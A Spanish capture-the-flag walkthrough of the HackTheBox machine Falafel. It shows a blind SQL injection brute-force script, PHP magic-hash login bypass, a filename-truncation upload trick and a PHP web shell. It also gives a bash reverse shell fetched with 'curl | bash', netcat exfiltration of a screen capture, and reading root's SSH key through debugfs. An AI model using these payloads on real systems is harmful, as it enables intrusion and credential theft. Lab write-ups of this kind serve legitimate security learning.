El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=CIAwmGsHfWk}{\includegraphics{https://img.youtube.com/vi/CIAwmGsHfWk/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-33}{%
\section*{Enumeracion}\label{enumeracion-33}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-33}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-33}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-33}{%
\subsubsection*{Ping}\label{ping-33}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.73}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-33}{%
\subsubsection*{Nmap}\label{nmap-33}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.73}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.73 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,2222 10.10.10.73 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-18}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-18}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-26}{%
\subsubsection*{Whatweb}\label{whatweb-26}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.73}
\end{Highlighting}
\end{Shaded}

Vemos un dominio \texttt{falafel.htb} y poco mas. Añadimos el dominio al \texttt{/etc/hosts}

\hypertarget{fuzzing-con-wfuzz-12}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-12}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.73/FUZZ}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,php-txt http://10.10.10.73/FUZZ.FUZ2Z}
\end{Highlighting}
\end{Shaded}

Aqui vemos routas importantes como:

\begin{itemize}
\tightlist
\item
  robots.txt
\item
  login.php
\item
  upload.php
\item
  cyberlaw.txt
\end{itemize}

\hypertarget{analyzando-la-web-con-firefox-8}{%
\subsubsection*{Analyzando la web con Firefox}\label{analyzando-la-web-con-firefox-8}}
\addcontentsline{toc}{subsubsection}{Analyzando la web con Firefox}

Analyzando la web vemos que hay un email \texttt{IT@falafel.htb}, aqui podemos pensar que IT es un usuario. Vemos el panel de login.
Si miramos por la url \texttt{http://10.10.10.73/cyberlaw.txt} vemos el contenido de un email enviado por \texttt{admin@falafel.htb} a \texttt{lawyers@falafel.htb} y a
\texttt{devs@falafel.htb}. El email nos dice que un usuario llamado \texttt{chris} a contactado a \texttt{admin@falafel.htb} para decirle que a podido logearse con este usuario
sin proporcionar contraseña y que a podido tomar el control total de la web usando la functionalidad du subida de imagenes. No se sabe como lo a echo.

Si vamos al panel de login y probamos con los usuarios encontrado, vemos un mensaje differente para los usuarios admin y chris que por los usuarios dev y lawyers.
Nos hace pensar que admin y chris son validos.

El usuario a podido entrar por la funccion de upload de imagenes. Si intentamos ir a la url \texttt{http://10.10.10.73/upload.php} hay una redireccion automatica hacia el
panel de login. Comprobamos con Burpsuite si el redirect a sido sanitizado correctamente.

\hypertarget{control-de-la-redireccion-con-burpsuite}{%
\subsection*{Control de la redireccion con Burpsuite}\label{control-de-la-redireccion-con-burpsuite}}
\addcontentsline{toc}{subsection}{Control de la redireccion con Burpsuite}

Primeramente controlamos si burpsuite intercepta no unicamente las requests pero tambien las respuestas al lado del servidor. Si es el caso,
lanzamos una peticion desde el navigador al la url \texttt{http://10.10.10.73/upload.php} y cuando interceptamos el 302 Redirect, lo cambiamos a 200 pero en este
caso parece que la redirection a sido bien sanitizada porque solo vemos una pagina en blanco.

\hypertarget{vulnerability-assessment-20}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-20}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{blind-sql-injection}{%
\subsection*{Blind SQL Injection}\label{blind-sql-injection}}
\addcontentsline{toc}{subsection}{Blind SQL Injection}

Como no podemos utilizar el \texttt{upload.php} solo nos queda que intentar cosas con el panel de login.
Como sabemos que el usuario \textbf{admin} existe, probamos cosas como:

\begin{itemize}
\tightlist
\item
  admin:test -\textgreater{} Wrong identification: admin
\item
  admin':test -\textgreater{} Try Again
\item
  admin' and sleep(5)-- -:tes -\textgreater{} Hacking attempt detected
\item
  ():test -\textgreater{} Try Again
\item
  sleep:test -\textgreater{} Hacking attempt detected
\item
  admin' order by 100-- -:test -\textgreater{} Try Again
\item
  admin' order by 3-- -:test -\textgreater{} Wrong identification: admin
\item
  admin' order by 4-- -:test -\textgreater{} Wrong identification: admin
\item
  admin' order by 5-- -:test -\textgreater{} Try Again
\item
  admin' union select 1,2,3,4-- -:test -\textgreater{} Hacking attempt detected
\item
  select:test -\textgreater{} Try Again
\item
  union:test -\textgreater{} Hacking attempt detected
\item
  dsafdasdfuniondasfasdf:test -\textgreater{} Hacking attempt detected
\end{itemize}

Estas pruebas nos dan, como informacion, que el panel de login parece ser vulnerable a SQLI, que palabras como union o sleep estan black listeadas y
que la respuesta de la llamada SQL tiene 4 columnas. Vamos a validar la respuesta de la web en caso de un error y en caso de una buena formula.

\begin{itemize}
\tightlist
\item
  admin' and substring(username,1,1)=`a'-- -:test -\textgreater{} Wrong identification: admin
\item
  admin' and substring(username,1,1)=`b'-- -:test -\textgreater{} Try Again
\item
  admin' and substring(username,2,1)=`d'-- -:test -\textgreater{} Wrong identification: admin
\item
  admin' and substring(username,2,1)=`w'-- -:test -\textgreater{} Try Again
\end{itemize}

Aqui ya vemos que typo de ataque podriamos hacer y tito s4vitar nos quiere enseñarnos como hacer un ataque de typo Cluster Bomb con BurpSuite aunque tiraremos de
un script en python que es mucho mas agil.

\hypertarget{cluster-bomb-attack-con-burpsuite}{%
\subsubsection*{Cluster Bomb attack con BurpSuite}\label{cluster-bomb-attack-con-burpsuite}}
\addcontentsline{toc}{subsubsection}{Cluster Bomb attack con BurpSuite}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Interceptamos y modificamos la SQLI desde BurpSuite

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Falafel-SQLI-intercept} \caption{Burp sqli interception}\label{fig:unnamed-chunk-70}
   \end{figure}
\item
  Con Ctrl+i lo enviamos al intruder
\item
  En el nodo Positions damos al boton \texttt{clear\ §} y selectionamos:

  \begin{itemize}
  \tightlist
  \item
    el primer 1 y le damos al boton \texttt{add\ §}
  \item
    la letra a y le damos al boton \texttt{add\ §}
  \item
    cambiamos el attack type para que valga \texttt{Cluster\ Bomb}
  \end{itemize}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Falafel-ClusterBomb-config-payload} \caption{Burp Cluster Bomb config}\label{fig:unnamed-chunk-71}
   \end{figure}
\item
  En el nodo Payloads, seleccionamos el Payload set numero 1

  \begin{itemize}
  \tightlist
  \item
    cambiamos el payload type a Numbers
  \item
    cambiamos el Number range en sequential From 1 To 5 con step de 1
  \item
    sacamos el URL encode del final de la pagina
  \end{itemize}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Falafel-ClusterBomb-config-payload1} \caption{Burp Cluster Bomb config set 1}\label{fig:unnamed-chunk-72}
   \end{figure}
\item
  En el nodo Payloads, seleccionamos el Payload set numero 2

  \begin{itemize}
  \tightlist
  \item
    cambiamos el payload type a Brute forcer
  \item
    cambiamos el Character set a \texttt{abcdefghijklmnopqrstuvwxyz} con un Min length de 1 y un Max length de 1
  \item
    sacamos el URL encode del final de la pagina
  \end{itemize}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Falafel-ClusterBomb-config-payload2} \caption{Burp Cluster Bomb config set 2}\label{fig:unnamed-chunk-73}
   \end{figure}
\item
  En el nodo Options En el Grep - Match

  \begin{itemize}
  \tightlist
  \item
    damos al boton Clear
  \item
    añadimos \texttt{Wrong\ identification}
  \end{itemize}

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Falafel-ClusterBomb-config-matcher} \caption{Burp Cluster Bomb config matcher}\label{fig:unnamed-chunk-74}
   \end{figure}
\item
  Le damos al boton start attack
\end{enumerate}

Aqui vemos que el resultado es un poco complicado pero se podria hacer de esta forma.

\hypertarget{cluster-bomb-attack-version-python}{%
\subsubsection*{Cluster Bomb attack version Python}\label{cluster-bomb-attack-version-python}}
\addcontentsline{toc}{subsubsection}{Cluster Bomb attack version Python}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}
\CommentTok{#coding: utf-8}

\ImportTok{import}\NormalTok{ requests}
\ImportTok{import}\NormalTok{ pdb}
\ImportTok{import}\NormalTok{ signal}
\ImportTok{import}\NormalTok{ time}
\ImportTok{import}\NormalTok{ sys}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\CommentTok{# Variables globales}
\NormalTok{login_url }\OperatorTok{=} \StringTok{"http://10.10.10.73/login.php"}
\NormalTok{s }\OperatorTok{=} \VerbatimStringTok{r'abcdef0123456789'}

\KeywordTok{def}\NormalTok{ makeRequest():}

\NormalTok{    p1 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p2 }\OperatorTok{=}\NormalTok{ log.progress(}\StringTok{"Password"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando proceso de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

\NormalTok{    password }\OperatorTok{=} \StringTok{""}

    \ControlFlowTok{for}\NormalTok{ position }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{1}\NormalTok{, }\DecValTok{40}\NormalTok{):}
        \ControlFlowTok{for}\NormalTok{ character }\KeywordTok{in}\NormalTok{ s:}
\NormalTok{            p1.status(}\StringTok{"Probando caracter }\SpecialCharTok{%c}\StringTok{ en la posición }\SpecialCharTok\NormalTok{ (character, position))}
\NormalTok{            post_data }\OperatorTok{=}\NormalTok{ \{}
                \StringTok{'username'}\NormalTok{: }\StringTok{"chris' and substring(password,}\SpecialCharTok{%d}\StringTok{,1)='}\SpecialCharTok\NormalTok{ (position, character),}
                \StringTok{'password'}\NormalTok{: }\StringTok{'admin'}
\NormalTok{            \}}

\NormalTok{            r }\OperatorTok{=}\NormalTok{ requests.post(login_url, data}\OperatorTok{=}\NormalTok{post_data)}

            \ControlFlowTok{if} \StringTok{"Wrong identification"} \KeywordTok{in}\NormalTok{ r.text:}
\NormalTok{                password }\OperatorTok{+=}\NormalTok{ character}
\NormalTok{                p2.status(password)}
                \ControlFlowTok{break}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}

\NormalTok{    makeRequest()}
\end{Highlighting}
\end{Shaded}

Cambiando el nombre de usuario, podemos buscar la contraseña del usuario chris y admin. una vez lanzado el script, podemos recoger
la contraseña md5 de cada uno de estos usuarios.

\hypertarget{crackeamos-las-contraseuxf1as-con-crackstation-1}{%
\subsection*{Crackeamos las contraseñas con crackstation}\label{crackeamos-las-contraseuxf1as-con-crackstation-1}}
\addcontentsline{toc}{subsection}{Crackeamos las contraseñas con crackstation}

Abrimos la web de \href{https://crackstation.net/}{crackstation} y colamos los hashes. Encontramos la contraseña del usuario \texttt{chris}.

\hypertarget{loggearse-como-el-usuario-admin}{%
\subsection*{Loggearse como el usuario admin}\label{loggearse-como-el-usuario-admin}}
\addcontentsline{toc}{subsection}{Loggearse como el usuario admin}

Aqui es donde viene toda la parte mas interesante de la maquina. Si nos connectamos como el usuario \textbf{chris} vemos que habla de juggling pero poco mas.
Si intentamos connectar a la url \texttt{http://10.10.10.73/upload.php} todavia hay una redireccion. Como habla de juggling, pensamos en seguida en una vulnerabilidad
de typo \textbf{type juggling} pero tampoco es esto. Esta via se parece mas a un rabbit hole que otra cosa.

Si analyzamos las contraseñas, mejor dicho los hashes encontrados:

\begin{itemize}
\tightlist
\item
  admin:0e462096931906507119562988736854
\item
  chris:d4ee02a22fc872e36d9e3751ba72ddc8
\end{itemize}

Nos damos cuenta que el hash del usuario chris contiene letras y numeros pero la del usuario admin solo contiene numeros. Porque digo que solo contiene numeros?
Porque si pensamos en forma mathematica, la letra \texttt{e} corresponde a un \textbf{por 10 elevado a} (en este caso 0 por 10 elevado a 462096931906507119562988736854) al final
solo son numeros.

La vulnerabilidad aqui viene si dos condiciones existen:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  En \texttt{php} la comparativa esta exprimida con un \texttt{==} y no con un \texttt{===}
\item
  Si el hash md5 de una contraseña empieza por 0e\emph{xxxxxxxxxxxx\ldots{}}
\end{enumerate}

Porque succede esta vulnerabilidad? Porque si los hashes de las 2 contraseñas empiezan por 0e\emph{xxx\ldots{}} y que la comparativa es unicamente de doble igual, como no
va a comparar de manera stricta, 0 por 10 elevado a cualquier cos (que vale 0) comparado a 0 por 10 elevado a cualquier otra cosa (que tambien vale 0) \textbf{SON IGUALES}.

Si miramos por google por \texttt{0e\ hash\ collision} por ejemplo el articulo de \href{https://news.ycombinator.com/item?id=9484757}{ycombinator}, vemos quel hash md5 de \texttt{240610708}
da un hash \texttt{0e462097431906509019562988736854} o el hash md5 de \texttt{QNKCDZO} nos da \texttt{0e830400451993494058024219903391}.

En php, si la comparativa es con un doble igual, estos dos hashes son iguales. Si vamos a la pagina de login y entramos el usuario \emph{admin} y la contraseña \emph{QNKCDZO},
conseguimos loggearnos como el usuario admin.

\hypertarget{burlar-el-upload-de-imagenes}{%
\subsection*{Burlar el upload de imagenes}\label{burlar-el-upload-de-imagenes}}
\addcontentsline{toc}{subsection}{Burlar el upload de imagenes}

Una vez loggeados entramos en el panel de upload. Aqui la web nos pone de uploadear una imagen desde una url. Recuperamos una imagen de pollo en la web y la copiamos
en nuestro directorio de trabajo. Lanzamos un servidor web con python \texttt{python3\ -m\ http.server\ 80} y uploadeamos el fichero desde la web poniendo la url \texttt{http://10.10.14.15/madafackingchicken.png}.

Aqui nos sale un Output con el commando lanzado por la maquina victima :

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{CMD}\NormalTok{: cd /var/www/html/uploads/0026-2354_e426c9e8c2f64caa}\KeywordTok{;} \FunctionTok{wget} \StringTok{'http://10.10.14.15/madafackingchicken.png'}
\end{Highlighting}
\end{Shaded}

Si miramos en la url \texttt{http://10.10.10.73/uploads/0026-2354\_e426c9e8c2f64caa/madafackingchicken.png} vemos la imagen del pollo que hemos enviado a la web.

\hypertarget{wget-vulnerabilidad}{%
\subsubsection*{wget vulnerabilidad}\label{wget-vulnerabilidad}}
\addcontentsline{toc}{subsubsection}{wget vulnerabilidad}

Tito S4vitar nos avanza aqui que el programa solo permite enviar ficheros con extension \texttt{png} o sea ya sabemos que no podemos enviar ficheros \texttt{.php}. Pero como
conocemos el commando echo por la maquina victima, y vemos que se utiliza el commando wget, ya tenemos una via potencial de ataque, el nombre de caracteres del nombre del fichero.
En linux, un fichero solo puede tener un nombre de fichero inferior a 255 caracteres incluida la extension. En el caso de un ficher \texttt{.png}, el limite maximo de un fichero
seria un nombre de 251 caracteres seguidos de la extension \texttt{.png}.

Copiando el resultado del comando \texttt{python\ -c\ "A"*251\ +\ ".png"} y cambiando el nombre del fichero \texttt{madafackingchicken.png} con ello, si uploadeamos este fichero en la web,
vemos que en el resultado de \textbf{Saving To} que solo guarda un 235 ``A'' como nombre de fichero. Esto quiere decir que si enviamos un ficher que tiene como nombre \texttt{231\ A} con una extesion \texttt{.php.png}
la web va a ver que el fichero es un ficher \texttt{.png} pero al momento de guardarlo, va a guardar los 235 primeros caracteres que equivalen a \texttt{231\ A} y la extension \texttt{.php}

Creamos un fichero php

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{touch} \KeywordTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\NormalTok{.php.png}
\NormalTok{vi }\KeywordTok{AAAAAA}\NormalTok{*}

\NormalTok{<}\OtherTok{?}\NormalTok{php}
    \KeywordTok{echo} \StringTok{"<pre>"}\NormalTok{ .}\FunctionTok{shell_exec}\OtherTok{(}\KeywordTok{$_REQUEST}\OtherTok{[}\StringTok{'cmd'}\OtherTok{])}\NormalTok{ .}\StringTok{"</pre>"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

Si enviamos este fichero, vemos que el fichero se a enviado como fichero \textbf{.png} pero salvado como fichero \textbf{.php} si vamos a la url \texttt{http://10.10.10.73/uploads/0026-2354\_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=whoami}
vemos que somos \texttt{www-data}.

\hypertarget{vuln-exploit-gaining-access-20}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-20}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-la-s4vishell.php}{%
\subsection*{Ganando accesso desde la s4vishell.php}\label{ganando-accesso-desde-la-s4vishell.php}}
\addcontentsline{toc}{subsection}{Ganando accesso desde la s4vishell.php}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero index.html con el contenido siguiente

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.15/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -c http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  desde la web lanzamos el comando \texttt{http://10.10.10.73/uploads/0026-2354\_e426c9e8c2f64caa/AAAAAAAAAA.......AAAA.php?cmd=curl\ 10.10.14.15\ \textbar{}\ bash}
\end{enumerate}

ganamos accesso al systema como el usuario www-data

\hypertarget{tratamiento-de-la-tty-20}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-20}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Vemos aqui que no podemos leer la flag porque no podemos entrar en las carpetas de \textbf{yossi} o de \textbf{moshe}. Tenemos que hacer un user pivoting.

\hypertarget{user-pivoting-1}{%
\subsection*{User Pivoting}\label{user-pivoting-1}}
\addcontentsline{toc}{subsection}{User Pivoting}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\BuiltInTok{cd}\NormalTok{ /home}
\BuiltInTok{cd}\NormalTok{ yossi}
\BuiltInTok{cd}\NormalTok{ moshe}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 2/dev/null}
\BuiltInTok{cd}\NormalTok{ /var/www/html}
\FunctionTok{ls}
\FunctionTok{cat}\NormalTok{ connection.php}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no tenemos permisos interesantes pero vemos en el ficher \texttt{connection.php} unas credenciales para el usuario \texttt{moshe} para la base de datos.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ moshe}
\ExtensionTok{Password}\NormalTok{:}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{moshe}

\FunctionTok{cat}\NormalTok{ /home/moshe/user.txt}
\end{Highlighting}
\end{Shaded}

Ahora que tenemos la flag, pasamos a la parte \textbf{PrivEsc}

\hypertarget{privilege-escalation-18}{%
\section*{Privilege Escalation}\label{privilege-escalation-18}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-27}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-27}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{uname}\NormalTok{ -a}
\ExtensionTok{lsb_release}\NormalTok{ -a}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Aqui llama el atencion el grupo video. Pero aqui primero la idea es ver que grupo tiene este mismo grupo por script.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{groups}
\KeywordTok{for} \ExtensionTok{group}\NormalTok{ in }\VariableTok{$(}\FunctionTok{groups}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \BuiltInTok{echo} \StringTok{"El grupo }\VariableTok{$group}\StringTok{"}\KeywordTok{;} \KeywordTok{done}
\KeywordTok{for} \ExtensionTok{group}\NormalTok{ in }\VariableTok{$(}\FunctionTok{groups}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] Listando archivos del sistema con grupo }\VariableTok{$group}\StringTok{ asignado:\textbackslash{}n"}\KeywordTok{;} \FunctionTok{find}\NormalTok{ / \textbackslash{}-group }\VariableTok{$group} \OperatorTok{2>}\NormalTok{/dev/null}\KeywordTok{;} \KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el fichero \texttt{/dev/fb0} esta en el grupo \textbf{video}. Este servicio permite hacer una captura de pantalla de la maquina.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Recoger las proporciones de la pantalla

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-name virtual_size }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{cat}\NormalTok{ ./sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0/virtual_size}
\CommentTok{#Output}
\ExtensionTok{1176.885}
\end{Highlighting}
\end{Shaded}
\item
  Captura de la pantalla

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{cat}\NormalTok{ /dev/fb0 }\OperatorTok{>}\NormalTok{ Captura}
\FunctionTok{du}\NormalTok{ -hc Captura}
\FunctionTok{file}\NormalTok{ Captura}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos la captura a nuestra maquina de atacante

  \begin{itemize}
  \item
    en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ Captura}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.15 443 }\OperatorTok{<}\NormalTok{ Captura}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Abrimos la captura con Gimp

  \begin{itemize}
  \item
    Aun que la apertura del fichero a fallado le damos al menu Archivo \textgreater{} Abrir
  \item
    Seleccionamos el typo de archivo Datos de imagen en bruto

    \begin{figure}
      \includegraphics[width=0.9\linewidth]{images/Falafel-open-capture} \caption{Gimp - Archive brute data}\label{fig:unnamed-chunk-75}
      \end{figure}
  \item
    Entramos la proporciones de la virtual\_size
  \end{itemize}
\end{enumerate}

Aqui podemos ver la contraseña del usuario yossi. Cambiamos de usuario con el comando \texttt{su\ yossi}.

Desde aqui volmemos a intentar a rootear la maquina desde el usuario yossi.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{id}
\end{Highlighting}
\end{Shaded}

Como otra vez un grupo, en este caso el grupo disk nos llama la atencion, volmemos a hacer lo mismo con el listeo de ficheros de cada grupo

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{for} \ExtensionTok{group}\NormalTok{ in }\VariableTok{$(}\FunctionTok{groups}\VariableTok{)}\KeywordTok{;} \KeywordTok{do} \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] Listando archivos del sistema con grupo }\VariableTok{$group}\StringTok{ asignado:\textbackslash{}n"}\KeywordTok{;} \FunctionTok{find}\NormalTok{ / \textbackslash{}-group }\VariableTok{$group} \OperatorTok{2>}\NormalTok{/dev/null}\KeywordTok{;} \KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Aqui vemos que \texttt{/dev/sda1} es parte del grupo disk. Si le hacemos un `\texttt{ls\ -l\ /dev/sda1} podemos ver que el grupo disk tiene derecho de escritura.
Controlamos si estamos en \texttt{/dev/sda1} con el comando \texttt{fdisk\ -l} y vemos que es el disco con 7G (El mas grande = el disco en uso).

Siendo del grupo disk, nos permite abrir la utilidad \texttt{debugfs} que nos permite manejar utilidades del disco como root.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{debugfs}\NormalTok{ /dev/sda1}
\BuiltInTok{pwd}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /root}
\BuiltInTok{pwd}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver la flag, pero nosotros queremos ser root. Continuamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ .ssh}
\FunctionTok{cat}\NormalTok{ id_rsa}
\end{Highlighting}
\end{Shaded}

la copiamos y creamos un fichero id\_rsa en /tmp

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{exit}
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{nano}\NormalTok{ id_rsa}

\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\FunctionTok{ssh}\NormalTok{ root@localhost -i id_rsa}
\FunctionTok{whoami}
\CommentTok{#Output }

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{beep}{%
\chapter*{Beep}\label{beep}}
\addcontentsline{toc}{chapter}{Beep}

\hypertarget{introduccion-34}{%
\section*{Introduccion}\label{introduccion-34}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 27/08/2021 se Beep.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=6pqd0QOc2Oc}{\includegraphics{https://img.youtube.com/vi/6pqd0QOc2Oc/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-34}{%
\section*{Enumeracion}\label{enumeracion-34}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-34}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-34}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-34}{%
\subsubsection*{Ping}\label{ping-34}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.7}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-34}{%
